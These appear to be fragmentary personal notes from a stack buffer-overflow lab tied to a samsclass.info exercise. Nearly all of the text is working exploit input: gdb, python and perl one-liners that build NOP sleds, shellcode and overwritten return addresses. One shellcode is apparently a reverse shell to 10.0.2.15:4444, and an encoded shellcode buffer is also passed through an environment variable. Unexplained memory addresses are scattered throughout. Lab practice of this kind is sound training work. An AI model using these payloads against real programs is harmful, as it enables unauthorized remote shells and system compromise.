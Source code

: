 

https://samsclass.info/127/proj/ED203.htm



gdb --args ./stack "$(python3 -c 'import sys, struct; ret=0xffffcd5c; shell=(b"\x90"*16 + b"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x0a\x00\x02\x0f\x68\x02\x00\x11\x5c\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80")); pad=b"A"*(52-len(shell)); sys.stdout.buffer.write(shell+pad+struct.pack("<I",ret))")'




0xffffd045


0xffffd045




```
gdb --args stack "$(python3 -c 'print("\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x0a\x00\x02\x0f\x68\x02\x00\x11\x5c\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xb0\x0b\xcd\x80")')" "$(python3 overflow.py)"



run $(perl -e 'print "\x90"x60, "\x45\xd0\xff\xff"')


```

bytes
unsigned char buf[] = 
"\xd9\xc5\xd9\x74\x24\xf4\x5a\x29\xc9\xb1\x12\xbe\xe3\x22"
"\xb5\x3e\x31\x72\x17\x03\x72\x17\x83\x09\xde\x57\xcb\xfc"
"\xc4\x6f\xd7\xad\xb9\xdc\x72\x53\xb7\x02\x32\x35\x0a\x44"
"\xa0\xe0\x24\x7a\x0a\x92\x0c\xfc\x6d\xfa\x84\xfe\x8f\xf5"
"\xf0\xfc\x8f\x18\x5d\x88\x71\xaa\x3b\xda\x20\x99\x70\xd9"
"\x4b\xfc\xba\x5e\x19\x96\x2a\x70\xed\x0e\xdb\xa1\x3e\xac"
"\x72\x37\xa3\x62\xd6\xce\xc5\x32\xd3\x1d\x85";


env -i SHELLCODE=$(printf '\xd9\xc5\xd9\x74\x24\xf4\x5a\x29\xc9\xb1\x12\xbe\xe3\x22\xb5\x3e\x31\x72\x17\x03\x72\x17\x83\x09\xde\x57\xcb\xfc\xc4\x6f\xd7\xad\xb9\xdc\x72\x53\xb7\x02\x32\x35\x0a\x44\xa0\xe0\x24\x7a\x0a\x92\x0c\xfc\x6d\xfa\x84\xfe\x8f\xf5\xf0\xfc\x8f\x18\x5d\x88\x71\xaa\x3b\xda\x20\x99\x70\xd9\x4b\xfc\xba\x5e\x19\x96\x2a\x70\xed\x0e\xdb\xa1\x3e\xac\x72\x37\xa3\x62\xd6\xce\xc5\x32\xd3\x1d\x85') ./vulnerable_program $(perl -e 'print "\x90"x24 . "<ADDR>"')



0xffffcd10



run $(perl -e 'print"A"x60')

0xffffd058
